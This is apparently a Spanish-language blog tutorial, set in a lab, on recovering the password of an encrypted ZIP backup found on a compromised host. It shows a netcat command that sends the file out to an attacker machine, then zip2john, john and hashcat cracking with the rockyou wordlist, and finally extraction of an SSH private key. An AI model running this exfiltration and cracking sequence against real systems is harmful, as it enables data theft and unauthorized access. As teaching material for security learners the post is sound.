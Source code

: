 ```yaml
---
date: 2023-03-12T22:25:05.000Z
layout: post
comments: true
title: ZIP cracking
subtitle: 'técnica de recuperación'
description: >-
image: >-
    http://imgfz.com/i/onKZRPH.png
optimized_image: >-
    http://imgfz.com/i/onKZRPH.png
category: ciberseguridad
tags: 
  - hacking
  - hashcat
  - john
  - zip2john
  - winrar
author: Felipe Canales Cayuqueo
paginate: true
---
```


Es el proceso de intentar recuperar la contraseña de un archivo zip cifrado sin tener que conocerla. Se realiza mediante el uso de herramientas de cracking que intentan diferentes combinaciones de contraseñas hasta encontrar la correcta.

### Ejemplo práctico

En este caso tenemos el caso de una máquina víctima en que se ingresó desde una web y se detecta un backup para acceder como un usuario:

```bash
www-data@user:/var/backups$ ls
alternatives.tar.0     alternatives.tar.2.gz  dpkg.arch.0     dpkg.arch.2.gz	 dpkg.diversions.1.gz  dpkg.statoverride.0     dpkg.statoverride.2.gz  dpkg.status.1.gz  user_backup.zip
alternatives.tar.1.gz  apt.extended_states.0  dpkg.arch.1.gz  dpkg.diversions.0  dpkg.diversions.2.gz  dpkg.statoverride.1.gz  dpkg.status.0	       dpkg.status.2.gz
```

Nos enviamos el zip a la máquina atacante por medio de netcat:

```bash
www-data@user:/var/backups$ nc 10.1.1.19 4646 < user_backup.zip 
```

Y lo recibimos en la máquina de la siguiente forma:

```bash
┌─[root@kali]─[/home/user/zip]
└──╼ nc -nlvp 4646 > user_backup.zip    
listening on [any] 4646 ...
connect to [10.1.1.19] from (UNKNOWN) [10.1.1.40] 56460
^C

┌─[root@kali]─[/home/user/zip]
└──╼ ls
user_backup.zip
```

Una vez lo tenemos en nuestra máquina atacante, verificamos abrirlo:

```bash
┌─[root@kali]─[/home/user/zip]
└──╼ unzip user_backup.zip        
Archive:  user_backup.zip
[user_backup.zip] id_rsa password: 
   skipping: id_rsa                  incorrect password
   skipping: id_rsa.pub              incorrect password
   skipping: my_password.txt         incorrect password
   skipping: easysysinfo.c           incorrect password
```

Ahora necesitamos obtener un hash del archivo zip por medio de la herramienta ```zip2john```, incluida en el paquete John the Ripper que permite extraer el hash de contraseñas de archivos zip.

```bash
┌─[root@kali]─[/home/user/zip]
└──╼ zip2john user_backup.zip > hash
ver 2.0 efh 5455 efh 7875 user_backup.zip/id_rsa PKZIP Encr: TS_chk, cmplen=1979, decmplen=2590, crc=A144E09A ts=0298 cs=0298 type=8
ver 2.0 efh 5455 efh 7875 user_backup.zip/id_rsa.pub PKZIP Encr: TS_chk, cmplen=470, decmplen=563, crc=41C30277 ts=029A cs=029a type=8
ver 1.0 efh 5455 efh 7875 ** 2b ** user_backup.zip/my_password.txt PKZIP Encr: TS_chk, cmplen=35, decmplen=23, crc=21E9B663 ts=02BA cs=02ba type=0
ver 2.0 efh 5455 efh 7875 user_backup.zip/easysysinfo.c PKZIP Encr: TS_chk, cmplen=115, decmplen=148, crc=A256BBD9 ts=0170 cs=0170 type=8
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.

┌─[root@kali]─[/home/user/zip]
└──╼ cat hash  
user_backup.zip:$pkzip$4*1*1*0*8*24*0170*ec4fd2b0aa20f56edb8a937f1139b2d2629a0cae87a5fc2350b0c4162c0c397334b2d3ad*1*0*8*24*029a*7bf140f80a405c4cf07debe3636404195407270f1d414555d6dc8b670dfd98659a733cb0*1*0*8*24*0298*625ef25ed71ddc48eaa744529308a8ccb41ce3deb3d707da114f2fb6f56de89adc7060e4*2*0*23*17*21e9b663*a35*49*0*23*02ba*9c8949619fb53f6d8f1f200bfedaf3321542d0d588aca8f8a1c5da5113463a151a5058*$/pkzip$::user_backup.zip:my_password.txt, easysysinfo.c, id_rsa.pub, id_rsa:user_backup.zip
```

Una vez obtenemos el hash, los crackeamos por medio de ```john```:

```bash
┌─[root@kali]─[/home/user/zip]
└──╼ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!randybaby       (user_backup.zip)     
1g 0:00:00:04 DONE (2023-03-04 19:31) 0.2293g/s 3289Kp/s 3289Kc/s 3289KC/s "2parrow"..*7¡Vamos!
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Para hashcat se podría realizar lo siguiente:

```bash
hashcat.exe -m 17200 -a 0 -o output.txt --force --potfile-disable hash.txt rockyou.txt
```

Detectamos que la contraseña es ```!randybaby``` y la probamos para acceder:


```bash
┌─[root@kali]─[/home/user/zip]
└──╼ unzip user_backup.zip 
Archive:  user_backup.zip
[user_backup.zip] id_rsa password: 
  inflating: id_rsa                  
  inflating: id_rsa.pub              
 extracting: my_password.txt         
  inflating: easysysinfo.c 

┌─[root@kali]─[/home/user/zip]
└──╼ ls
easysysinfo.c  hash  id_rsa  id_rsa.pub  my_password.txt  user_backup.zip

```

Como se aprecia obtenemos acceso y podemos observar los archivos de la contraseña y del id_rsa, que se podría usar dando los privilegios adecuados ```chmod 600 id_rsa```.


